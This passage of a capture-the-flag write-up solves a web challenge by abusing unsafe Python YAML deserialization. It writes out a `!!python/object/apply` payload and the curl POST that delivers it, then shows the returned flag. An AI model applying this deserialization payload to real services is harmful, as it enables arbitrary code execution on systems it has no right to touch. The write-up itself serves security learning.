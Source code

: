 After a few attempts, it was still complaining that it was expecting a mapping for the Wheel object.
So, I got the idea to put that `!!python/object` stuff inside a field of the Wheel object.

`{name: !!python/object/apply:flag.get_flag [], image_num: 2, diameter: 5}`

We don't care at all about `image_num` and `diameter` (but must provide them to create the Wheel).

Finally, I worked out the final solution with some URL encoding:

```
curl -X POST -d 'config={name:%20!!python/object/apply:flag.get_flag [], image_num: 2, diameter: 5}' http://chal.cybersecurityrumble.de:7780/wheel

[..]

<h1>Here you go</h1>
<h1>CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?}</h1>
Diameter: 5
<code>
diameter: 5
image_num: 2
name: CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?}
[..]
```

Despite "easy", I learned a lot with this challenge and enjoyed it. I had no idea about this YAML exploit, and will be certain to be cautious if I ever need to use it in the future.
